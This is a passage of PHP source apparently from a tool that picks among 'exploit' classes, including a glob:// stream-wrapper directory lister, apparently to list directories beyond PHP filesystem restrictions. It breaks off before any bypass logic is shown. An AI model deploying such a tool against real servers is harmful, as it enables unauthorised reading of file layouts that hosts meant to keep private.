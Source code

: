 ```php
		// find first non-matching dir
		if ($dir === $to[$depth]) {
			// ignore this directory
			array_shift($relPath);
		} else {
			// get number of remaining dirs to $from
			$remaining = count($from) - $depth;
			if ($remaining > 1) {
				// add traversals up to first matching dir
				$padLength = (count($relPath) + $remaining - 1) * -1;
				$relPath = array_pad($relPath, $padLength, '..');
				break;
			} else {
				$relPath[0] = './' . $relPath[0];
			}
		}
	}
	return implode('/', $relPath);
}

function fallback($classes) {
	foreach ($classes as $class) {
		$object = new $class;
		if ($object->isAvailable()) {
			return $object;
		}
	}
	return new NoExploit;
}

// Core classes
interface Exploitable {
	function isAvailable();
	function getDescription();
}

class NoExploit implements Exploitable {
	function isAvailable() {
		return true;
	}
	function getDescription() {
		return 'No exploit is available.';
	}
}

abstract class DirectoryLister implements Exploitable {
	var $currentPath;

	function isAvailable() {}
	function getDescription() {}
	function getFileList() {}
	function setCurrentPath($currentPath) {
		$this->currentPath = $currentPath;
	}
	function getCurrentPath() {
		return $this->currentPath;
	}
}

class GlobWrapperDirectoryLister extends DirectoryLister {
	function isAvailable() {
		return stripos(PHP_OS, 'win') === FALSE && in_array('glob', stream_get_wrappers());
	}
```